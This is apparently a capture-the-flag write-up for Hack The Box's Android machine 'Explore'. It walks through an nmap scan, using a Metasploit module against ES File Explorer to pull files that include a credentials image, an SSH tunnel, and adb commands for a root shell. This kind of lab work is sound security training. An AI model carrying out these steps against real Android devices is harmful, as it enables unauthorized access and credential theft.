






> Pretty interesting box, first time seeing Android in HTB.

## TL;DR

Exfilter files on device using ES File explorer exploit, get user credentials. Root is straightforward with ADB.

## Footholds

With `nmap` we get the following:

```
# Nmap 7.91 scan initiated Wed Jul 28 14:49:28 2021 as: nmap -A -p- -o nmap.out explore.htb
Nmap scan report for explore.htb (10.10.10.247)
Host is up (0.043s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
33195/tcp open     unknown
[...]
```

* `2222`: SSH server
* `5555`: not interesting, we will see why further
* `33195`: ES File Explorer (with some research)

The only useful port here is `33195`, with a litle research on the web we get that this is possibly a good entrypoint for our exploit.

## User

As this is an easy box ~~and I am lazy~~ I used the forbidden **M e t a s p l o i t**. Using it's `auxiliary/scanner/es_file_explorer_open_port` exploit I managed to exfilter some files off the device:



We found some Pictures on the device. The `creds.jpg` is very interesting:



We can now ssh to the device and get `user.txt`.




## Root

The idea that came to my mind here was to use ADB to get a root shell on the device. We first need to connect to this device with ADB, so we have to make a tunnel:

```sh
ssh -p 2222 user@explore.htb -L 5555:localhost:5555
```



We can now connect to it:

```sh
adb connect localhost:5555
adb root
adb shell
```





End of the box.


